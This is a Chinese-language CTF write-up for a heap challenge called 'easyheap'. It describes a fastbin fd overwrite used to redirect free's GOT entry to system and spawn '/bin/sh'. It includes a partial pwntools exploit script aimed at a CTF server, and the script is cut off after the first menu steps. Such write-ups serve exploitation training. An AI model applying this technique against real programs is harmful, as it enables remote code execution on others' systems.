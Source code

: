 
利用方式：
通过溢出，修改fastbins的下一个fd，分配时会优先分配fastbins
于是分配过真实内存后，下次分配会使用修改过的fastbins地址，本题中是用来修改heap_array中的地址
heap 0 溢出用； heap 1 fd被修改；heap 2 heap_array中的地址

通过修改heap2，修改heap0的地址
heap 0 free的got表->free； heap 1 fd被修改；heap 2 heap_array中的地址

通过修改heap0，修改free的got表存的的地址，指向system的plt地址
heap 0 free的got表->system； heap 1 fd被修改；heap 2 heap_array中的地址

修改heap 1内容作为传参：/bin/sh
heap 0 free的got表->system； heap 1 ->'/bin/sh'；heap 2 heap_array中的地址

调用free(heap1) =>system('/bin/sh')

![](../images/Pasted%20image%2020250226190945.png)

需要注意，如果是用高版本Linux中指定低版本库运行，这里启动的system虽然启动成功，但是无法执行命令
因为命令的可执行文件依赖高版本库
![](../images/Pasted%20image%2020250226203143.png)

补了一些解析

```python
context(log_level = 'debug', arch = 'amd64', os = 'linux')  
  
elf = ELF("/home/phoexina/ctf/easyheap")  
  
system_plt = elf.plt['system']  
print(hex(system_plt))  
free_got = elf.got['free']  
print(hex(free_got))  
my_array_addr = elf.symbols['heaparray']  
print(hex(my_array_addr))  
  
#node5.buuoj.cn:26612  
p = remote('node5.buuoj.cn', 26612)  
  
#heap 0  
p.sendafter('Your choice :', b'1\n')  
p.sendafter('Size of Heap : ', b'96\n')  
p.sendafter('Content of heap:', b'aaaa\n')  
  
p.sendafter('Your choice :', b'1\n')  
```